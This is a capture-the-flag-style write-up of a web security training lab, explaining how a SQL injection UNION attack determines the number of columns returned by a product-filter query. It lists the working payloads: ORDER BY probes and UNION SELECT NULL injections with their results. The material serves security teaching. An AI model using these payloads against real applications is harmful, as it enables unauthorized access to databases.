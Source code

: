 
## Lab: SQL injection UNION attack, determining the number of columns returned by the query

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.


# Writeup

---

### **SQL Injection - UNION Attack: Determining the Number of Columns**

- `UNION` lets us combine results from two `SELECT` queries, but both queries **must** have the same number of columns.
- So, we need to figure out how many columns exist in the original query.

#### **Steps:**

1. **Try ORDER BY to estimate the number of columns:**
    
    - `' ORDER BY 1--` ✅ (Works)
    - `' ORDER BY 2--` ✅ (Works)
    - `' ORDER BY 3--` ✅ (Works)
    - `' ORDER BY 4--` ❌ (Error) → The table has **3 columns**.
2. **Confirm using UNION SELECT with NULLs:**
    
    - `' UNION SELECT NULL--` ❌ (Error)
    - `' UNION SELECT NULL, NULL--` ❌ (Error)
    - `' UNION SELECT NULL, NULL, NULL--` ✅ (Success) → **3 columns confirmed!**

🎉 **Lab solved!** 🎉